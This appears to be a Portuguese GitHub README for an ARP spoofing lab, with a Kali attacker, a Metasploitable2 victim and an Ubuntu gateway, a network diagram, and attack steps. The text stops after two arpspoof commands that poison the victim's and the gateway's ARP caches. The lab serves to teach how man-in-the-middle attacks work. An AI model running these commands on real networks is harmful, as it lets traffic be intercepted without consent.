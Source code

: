 # 🕵️ ARP Spoofing Lab - Demonstração de Ataque Man-in-the-Middle

> **Objetivo**: Simular e analisar um ataque de ARP spoofing em ambiente controlado para demonstrar vulnerabilidades em redes locais.

## 🔧 Topologia do Laboratório
| Componente    | Especificações               | Papel         |
|---------------|------------------------------|---------------|
| Atacante      | Kali Linux 2025.2            | Realiza o ataque |
| Vítima        | Metasploitable2              | Dispositivo alvo |
| Gateway       | Ubuntu Server 24.04          | Roteador local |

## Diagrama de Rede
```mermaid
graph LR
    A[Kali Linux<br>192.168.100.10] -->|Tráfego Normal| B[Ubuntu Gateway<br>192.168.100.30]
    C[Metasploitable<br>192.168.100.20] -->|Tráfego Normal| B
    A -->|Ataque ARP Spoof| C
    A -->|“O Gateway sou eu”| C
     A -->|Ataque ARP Spoof| B
    A -->|O Cliene 'Metasploitable' sou eu| B
```

## ⚡ Etapas do Ataque
1. **Reconhecimento**:
   - Mapeamento da rede com `arp-scan`
   - Identificação de vítima e gateway

2. **Ataque ARP Spoofing**:
   ```bash
   arpspoof -i eth0 -t 192.168.100.20 192.168.100.30
   arpspoof -i eth0 -t 192.168.100.30 192.168.100.20